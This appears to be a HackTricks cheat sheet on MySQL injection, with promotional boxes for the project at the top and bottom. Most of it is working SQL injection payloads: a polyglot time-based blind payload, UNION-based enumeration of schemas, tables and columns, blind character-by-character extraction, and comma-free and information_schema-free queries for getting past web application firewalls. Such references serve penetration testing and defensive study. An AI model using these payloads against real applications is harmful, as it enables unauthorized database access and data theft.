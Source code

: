 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# MySQL injection

**This is a basic flow of how to confirm and perform a basic MySQL Injection. For more information go to:** [**https://github.com/carlospolop-forks/PayloadsAllTheThings/blob/master/SQL%20injection/MySQL%20Injection.md**](https://github.com/carlospolop-forks/PayloadsAllTheThings/blob/master/SQL%20injection/MySQL%20Injection.md)

## Comments

```sql
-- MYSQL Comment
# MYSQL Comment
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MySQL version 3.23.02
```

## Interesting Functions

### Confirm Mysql:

```
concat('a','b')
database()
version()
user()
system_user()
@@version
@@datadir
rand()
floor(2.9)
length(1)
count(1)
```

### Useful functions

```sql
SELECT hex(database())
SELECT conv(hex(database()),16,10) # Hexadecimal -> Decimal
SELECT DECODE(ENCODE('cleartext', 'PWD'), 'PWD')# Encode() & decpde() returns only numbers
SELECT uncompress(compress(database())) #Compress & uncompress() returns only numbers
SELECT replace(database(),"r","R")
SELECT substr(database(),1,1)='r'
SELECT substring(database(),1,1)=0x72
SELECT ascii(substring(database(),1,1))=114
SELECT database()=char(114,101,120,116,101,115,116,101,114)
SELECT group_concat(<COLUMN>) FROM <TABLE>
SELECT group_concat(if(strcmp(table_schema,database()),table_name,null))
SELECT group_concat(CASE(table_schema)When(database())Then(table_name)END)
strcmp(),mid(),,ldap(),rdap(),left(),rigth(),instr(),sleep()
```

## All injection

```sql
SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

from [https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/](https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/)

## Flow

Remember that in "modern" versions of **MySQL** you can substitute "_**information\_schema.tables**_" for "_**mysql.innodb\_table\_stats**_**"** (This could be useful to bypass WAFs).

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges
```

### **Only 1 value**

* `group_concat()`
* `Limit X,1`

### **Blind one by one**

* `substr(version(),X,1)='r'` or `substring(version(),X,1)=0x70` or `ascii(substr(version(),X,1))=112`
* `mid(version(),X,1)='5'`

### **Blind adding**

* `LPAD(version(),1...lenght(version()),'1')='asd'...`
* `RPAD(version(),1...lenght(version()),'1')='asd'...`
* `SELECT RIGHT(version(),1...lenght(version()))='asd'...`
* `SELECT LEFT(version(),1...lenght(version()))='asd'...`
* `SELECT INSTR('foobarbar', 'fo...')=1`

## Detect number of columns

Using a simple ORDER

```
order by 1
order by 2
order by 3
...
order by XXX

UniOn SeLect 1
UniOn SeLect 1,2
UniOn SeLect 1,2,3
...
```

## MySQL Union Based

```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```

## SSRF

**Learn here different options to** [**abuse a Mysql injection to obtain a SSRF**](mysql-ssrf.md)**.**

## WAF bypass tricks

### Information\_schema alternatives

Remember that in "modern" versions of **MySQL** you can substitute _**information\_schema.tables**_ for _**mysql.innodb\_table\_stats**_** ** or for _**sys.x$schema\_flattened\_keys**_ or for **sys.schema\_table\_statistics**

![](<../../../.gitbook/assets/image (154).png>)

![](<../../../.gitbook/assets/image (155).png>)

### MySQLinjection without COMMAS

Select 2 columns without using any comma ([https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma](https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma)):

```
-1' union select * from (select 1)UT1 JOIN (SELECT table_name FROM mysql.innodb_table_stats)UT2 on 1=1#
```

### Retrieving values without the column name

If at some point you know the name of the table but you don't know the name of the columns inside the table, you can try to find how may columns are there executing something like:

```bash
# When a True is returned, you have found the number of columns
select (select "", "") = (SELECT * from demo limit 1);     # 2columns
select (select "", "", "") < (SELECT * from demo limit 1); # 3columns
```

Supposing there is 2 columns (being the first one the ID) and the other one the flag, you can try to bruteforce the content of the flag trying character by character:

```bash
# When True, you found the correct char and can start ruteforcing the next position
select (select 1, 'flaf') = (SELECT * from demo limit 1);
```

More info in [https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952](https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952)

### MySQL history

You ca see other executions inside the MySQL reading the table: **sys.x$statement\_analysis**

### Version alternative**s**

```
mysql> select @@innodb_version;
+------------------+
| @@innodb_version |
+------------------+
| 5.6.31           |
+------------------+

mysql> select @@version;
+-------------------------+
| @@version               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+

mysql> mysql> select version();
+-------------------------+
| version()               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+
```


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


